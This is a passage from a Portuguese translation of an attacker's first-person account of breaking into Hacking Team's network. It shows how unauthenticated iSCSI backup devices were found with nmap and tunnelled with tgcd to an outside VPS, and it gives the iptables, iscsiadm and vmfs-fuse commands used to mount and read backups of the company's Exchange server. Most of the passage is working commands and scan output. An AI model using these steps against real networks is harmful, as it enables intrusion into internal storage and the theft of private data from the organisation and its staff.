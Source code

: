 [6] https://ht.transparencytoolkit.org/audio/

--[ 9 - Cabos Cruzados ]--------------------------------------------------------

Embora fosse divertido ouvir as gravações e ver as imagens da webcam do Hacking Team desenvolvendo seu malware, não era muito útil. Seus backups inseguros foram a vulnerabilidade que abriu suas portas. De acordo com sua documentação [1], seus dispositivos iSCSI deveriam estar em uma rede separada, mas o nmap encontrou alguns em sua sub-rede 192.168.1.200/24:

~~~
Nmap scan report for ht-synology.hackingteam.local (192.168.200.66)
...
3260/tcp open  iscsi?
| iscsi-info:
|   Target: iqn.2000-01.com.synology:ht-synology.name
|     Address: 192.168.200.66:3260,0
|_    Authentication: No authentication requiredNmap scan report for synology-backup.hackingteam.local (192.168.200.72)
...
3260/tcp open  iscsi?
| iscsi-info:
|   Target: iqn.2000-01.com.synology:synology-backup.name
|     Address: 10.0.1.72:3260,0
|     Address: 192.168.200.72:3260,0
|_    Authentication: No authentication required
~~~
O iSCSI precisa de um módulo de kernel e seria difícil compilá-lo para o sistema embarcado. Encaminhei a porta para que pudesse montá-la a partir de um VPS:
~~~
VPS: tgcd -L -p 3260 -q 42838
Embedded system: tgcd -C -s 192.168.200.72:3260 -c VPS_IP:42838

VPS: iscsiadm -m discovery -t sendtargets -p 127.0.0.1
~~~
Agora o iSCSI encontra o nome iqn.2000-01.com.synology, mas tem problemas para montá-lo porque pensa que seu IP é 192.168.200.72 em vez de 127.0.0.1

A maneira como resolvi foi:
~~~
iptables -t nat -A OUTPUT -d 192.168.200.72 -j DNAT --to-destination 127.0.0.1
~~~

E agora, depois:
~~~
iscsiadm -m node --targetname=iqn.2000-01.com.synology:synology-backup.name -p 192.168.200.72 --login
~~~

...o arquivo do dispositivo aparece! Nós montamos isso:
~~~
vmfs-fuse -o ro /dev/sdb1 /mnt/tmp
~~~

e encontrar backups de várias máquinas virtuais. O servidor Exchange parecia o mais interessante. Era muito grande para baixar, mas foi possível montá-lo remotamente para procurar arquivos interessantes:
~~~
$ losetup /dev/loop0 Exchange.hackingteam.com-flat.vmdk
$ fdisk -l /dev/loop0
/dev/loop0p1            2048  1258287103   629142528    7  HPFS/NTFS/exFAT
~~~
